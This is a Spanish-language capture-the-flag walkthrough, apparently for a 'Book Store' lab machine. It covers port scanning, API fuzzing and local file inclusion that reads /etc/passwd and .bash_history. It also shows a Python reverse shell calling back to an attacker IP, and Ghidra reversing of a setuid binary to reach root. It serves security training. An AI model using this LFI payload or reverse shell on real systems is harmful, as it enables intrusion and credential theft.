

# Metodología 
- Escaneo de red
- Enumeración 
  - Enumeración del servicio HTTP en el puerto 80
  - Enumeración del sercicio HTTP en el puerto 5000
  - Fuerza bruta de directorios
  - Fuzzing de la API
  - LFI

- Explotación
  - Explotación del LFI
  - Desbloqueo de la consoloa de Python
  - Obtener una shell

- Escalar Privilegios
  - Ingeniería inversa y obtención del numero mágico
  - Obtención de la shell como root

# Walkthrough

Empezamos haciendo un `ping` para verificar la canectividad con la maquina y tambien tener en cuenta el tipo de sistema operativo al que nos enfrentamos

```
ping 10.10.235.168
```
A través del ttl podemos saber que es una maquina linux.

## Enumeración de red

Realizamos un sacaneo con nmap `-sC`: scripts por defecto de nmap `-sV`: enumeración de servicios
```shell
❯ nmap -p- --open -sC -sV -Pn -n -vvvv 10.10.235.168
```

```shell
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCs5RybjdxaxapwkXwbzqZqONeX4X8rYtfTsy7wey7ZeRNsl36qQWhTrurBWWnYPO7wn2nEQ7Iz0+tmvSI3hms3eIEufCC/2FEftezKhtP1s4/qjp8UmRdaewMW2zYg+UDmn9QYmRfbBH80CLQvBwlsibEi3aLvhi/YrNCzL5yxMFQNWHIEMIry/FK1aSbMj7DEXTRnk5R3CYg3/OX1k3ssy7GlXAcvt5QyfmQQKfwpOG7UM9M8mXDCMiTGlvgx6dJkbG0XI81ho2yMlcDEZ/AsXaDPAKbH+RW5FsC5R1ft9PhRnaIkUoPwCLKl8Tp6YFSPcANVFYwTxtdUReU3QaF9
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCbhAKUo1OeBOX5j9stuJkgBBmhTJ+zWZIRZyNDaSCxG6U817W85c9TV1oWw/A0TosCyr73Mn73BiyGAxis6lNQ=
|   256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAr3xDLg8D5BpJSRh8OgBRPhvxNSPERedYUTJkjDs/jc
80/tcp   open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Book Store
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-favicon: Unknown favicon MD5: 834559878C5590337027E6EB7D966AEE
5000/tcp open  http    syn-ack Werkzeug httpd 0.14.1 (Python 3.6.9)
|_http-server-header: Werkzeug/0.14.1 Python/3.6.9
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Home
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

La herramienta de `nmap` reporta tres puerto abiertos de los cuales uno parece ser una `api`

## Enumeración 

### Puerto 80
En el puerto `80` tenemos lo siguiente:


## Puerto 5000

En el puerto `5000` tenemos una `REST API`, en la cual enumeraremos con fuzzing 

### Fuzzing de directorios
```shell
❯ wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://10.10.235.168:5000/FUZZ
```
`wfuzz` reporta dos directorios:
 - api
 - console


Abrimos el navegador web con la ruta que encontramos y nos encontramos lo siguiente:


```
/api/v2/resources/books/all (Retrieve all books and get the output in a json format)
/api/v2/resources/books/random4 (Retrieve 4 random records)
/api/v2/resources/books?id=1(Search by a specific parameter , id parameter)
/api/v2/resources/books?author=J.K. Rowling (Search by a specific parameter, this query will return all the books with author=J.K. Rowling)
/api/v2/resources/books?published=1993 (This query will return all the books published in the year 1993)
/api/v2/resources/books?author=J.K. Rowling&published=2003 (Search by a combination of 2 or more parameters)
```
### Fuzzing de la Api
Vemos una ruta `/api/v2` en la que podemos inferir que `v2` es la version de la `api`, asi que creamos una lista con numeros con el siguiente comando:

```shell
❯ for i in {0..100}; echo "v$i">> list.txt
```

Una vez creado la lista, vamos a realizar fuzzing.

```shell
❯ wfuzz -c -f dictionaryApi01,raw -w list.txt --hc 404 "http://10.10.91.45:5000/api/FUZZ/resources/books?author=1"
```

En el fuzzing nos reporta `v1`, la cual la usaremos


Ahora vamos a realizar otro fuzzing para buscar los posibles parametros los cuales podemos usar para seguir enumerando

```shell
❯ wfuzz -c -f dictionaryApi02,raw -u "http://10.10.15.203:5000/api/v1/resources/books?FUZZ=1" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404
```

Encontramos un parametro diferente a los que ya nos habiamos encontrado anteriormente, el cual es `show`


Con la siguiente url vamos a ir al navegador

```shell
http://10.10.15.203:5000/api/v1/resources/books?show=1
```
Al ingresar al navegador a url, obtenemos la siguiente respuesta


### LFI
Al ingresar el parametro la ruta de un arcchivo, este nos permite leer el contenido de dicho fichero.

```shell
view-source:http://10.10.15.203:5000/api/v1/resources/books?show=/home/sid/api.py
```


## Explotación

### Explotación del LFI 

Ahora vamos a intentar leer algunos archivos del sistema que puedem ser interesantes y que contengan credenciales, uno de estos es el `/etc/passwd/`

```shell
view-source:http://10.10.15.203:5000/api/v1/resources/books?show=/etc/passwd
```


Después de estar buscando archivos que puedan tener alguna credencial o información valiosa para tener acceso al servidor, nos encontramos con lo siguiente:

```shell
http://10.10.15.203:5000/api/v1/resources/books?show=/home/sid/.bash_history

cd /home/sid whoami export WERKZEUG_DEBUG_PIN=123-321-*** echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit
```
Pudimos leer el archivo `.bash_history`, el cual contiene un PIN que podemos probar en otra ruta de la pagina web.


### Desbloqueo de la consola de Python


### Obteniendo una shell 

Tenemos una manera de ejecutar comandos y poder enviarnos una shell desde la máquina víctima

Con el siguiente codigo en python nos enviaremos una shell a nuestra máquina 
revershell

```python
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.63.74",443))
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

Ejecutamos el comado:



En una termial nos ponemos con `ncat` a la escucha para recibir la shell

## Escalar Privilegios

Logramos conectarnos a la máquina victima.


### Usuario **sid**

En la carpeta del usuario podemos encontrar un binario, para entender el funcionamiento de este binario necesitamos ejecutarlo. Al ejecutar dicho binario nos pide un numero, el cual no sabemos 

- binario : `try-harder`

### Ghidra

Con la herramienta `ghidra` vamos a ejecutar y cargar el binario. Realizamos el análisis del binario `try_harder` y en un apartado podemos observar lo siguiente


Tenemos la validación del número el cual se ingresa:


Esta parte del código es que se valida
```c
.
.
.
  long in_FS_OFFSET;
  uint local_1c;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  .
  .
  .
```

Entendemos parte del codigo y la explicamos un poco:

1. `long in_FS_OFFSET;` y `long local_10;`: Estas son declaraciones de variables. `in_FS_OFFSET` y `local_10` son de tipo `long`, que generalmente se utiliza para representar números enteros largos.
    
2. `uint local_1c;`, `uint local_18;`, `uint local_14;`: Estas son otras declaraciones de variables. `local_1c`, `local_18`, y `local_14` son de tipo `uint`, que generalmente se usa para representar números enteros sin signo (positivos).
    
3. `local_10 = *(long *)(in_FS_OFFSET + 0x28);`: Esto parece ser una operación que establece el valor de `local_10` tomando el valor almacenado en la dirección de memoria `(in_FS_OFFSET + 0x28)`. Esto puede estar relacionado con la gestión de excepciones o la estructura de la pila en un programa.
    
4. `setuid(0);`: Esta función establece el ID de usuario efectivo del proceso en 0, lo que significa que el proceso se ejecutará con privilegios de superusuario (root).
    
5. `local_18 = 0x5db3;`: Esto asigna el valor hexadecimal `0x5db3` a la variable `local_18`.
    
6. `puts("What\'s The Magic Number?!");`: Esta línea imprime la cadena "What's The Magic Number?!" en la salida estándar.
    
7. `__isoc99_scanf(&DAT_001008ee, &local_1c);`: Esta función lee un valor desde la entrada estándar y lo almacena en la variable `local_1c`.
    
8. `local_14 = local_1c ^ 0x1116 ^ local_18;`: Esto realiza operaciones de bits XOR en las variables `local_1c`, `0x1116` y `local_18` y almacena el resultado en `local_14`.
    
9. `if (local_14 == 0x5dcd21f4) { ... }`: Esto compara el valor de `local_14` con el valor hexadecimal `0x5dcd21f4`. Si son iguales, se ejecutará el código en el bloque `{ ... }`, que en este caso ejecuta un shell de Bash con privilegios (`system("/bin/bash -p")`).

Lo que necesitamos es obtener el número para poder ejecutar `system("/bin/bash -p")`. Entendiendo el anterior codigo podemos realizar una ecuación 

La ecuación quedaría de la siguiente manera

```python
local_14 = local_1c ^ 0x1116 ^ local_18
```

Reemplazando los valores se tendria lo siguiente:

```python
>>> 0x5dcd21f4 = local_1c ^ 0x1116 ^ 0x5db3
>>> local_1c = 0x5dcd21f4  ^ 0x1116 ^ 0x5db3
>>> (0x5dcd21f4 ^ 0x1116) ^ 0x5db3
1573743953
```

## Usuario Root

Una vez teniendo el número podemos ingesar y ejecutar `bash -p` para elevar nuestro privilegios y ser el usuario root


pwned :P


